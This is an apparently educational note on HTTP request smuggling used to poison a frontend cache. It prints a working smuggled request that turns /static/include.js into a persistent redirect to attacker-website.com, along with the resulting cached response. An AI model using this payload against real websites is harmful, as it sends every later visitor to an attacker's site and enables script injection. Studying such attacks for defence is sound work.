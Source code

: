 It is a variation of "Using HTTP request smuggling to turn an on-site redirect into an open redirect" and happens if any part of the frontend performs caching of content (mostly for performance reasons).

This case makes the attack persistent, and affects any user who subsequently requests the affected URL.

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 59
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /static/include.js HTTP/1.1
Host: vulnerable-website.com
```

So in this scenario the smuggled request reaches the backend which responds with an off-site redirect, and the frontend caches this response against what it believes is the URL in the second request, which is /static/include.js:

```http
GET /static/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

Then from this point, when the user request this URL, they receive the redirection to the attacker's web site.

